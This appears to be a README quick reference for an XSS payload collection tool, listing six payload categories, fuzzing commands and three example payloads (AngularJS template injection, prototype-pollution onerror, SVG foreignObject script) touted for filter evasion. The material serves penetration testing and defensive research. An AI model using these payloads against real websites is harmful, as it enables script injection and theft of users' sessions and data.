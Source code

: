 # 🔥 Advanced XSS Categories - Quick Reference

## 📋 6 New God-Tier Categories Added to XSS Vibes V2

### 🎯 Categories Overview
- **Template Injection** (8 payloads) - SSTI, Mustache, AngularJS
- **Event Handler Injection** (8 payloads) - Dynamic events, setAttribute abuse  
- **JavaScript URI Injection** (8 payloads) - Protocol handlers, window.location
- **innerHTML SVG Namespace** (8 payloads) - SVG, mixed namespaces
- **JavaScript Proto Pollution XSS** (8 payloads) - Prototype pollution chains
- **URL JS Context** (8 payloads) - Script src, JSONP callbacks

### 🚀 Quick Usage
```bash
# Test all new categories
python3 tools/test_advanced_categories.py

# Test specific category
python3 tools/test_advanced_categories.py template_injection

# Use with AI tools
xss-ai-domfuzz --contexts template_injection,prototype_pollution
xss-context /path/to/app --format json
```

### 📁 Files Created
- `xss_vibes/data/categories/*.json` - Individual category files
- `xss_vibes/data/payloads_enhanced.json` - Combined enhanced payloads
- `docs/ADVANCED_XSS_CATEGORIES.md` - Complete documentation

### 💀 Example Payloads

**Template Injection (GOD TIER)**
```javascript
{{constructor.constructor('alert(1)')()}}
```

**Proto Pollution XSS (GOD TIER)**  
```javascript
__proto__.onerror = alert; throw 1;
```

**SVG Namespace (GOD TIER)**
```html
<svg><foreignObject><div xmlns="http://www.w3.org/1999/xhtml"><script>alert(1)</script></div></foreignObject></svg>
```

**Total: 48 Advanced Payloads | Evasion Level: 8-10/10**

📚 [Complete Documentation](docs/ADVANCED_XSS_CATEGORIES.md)
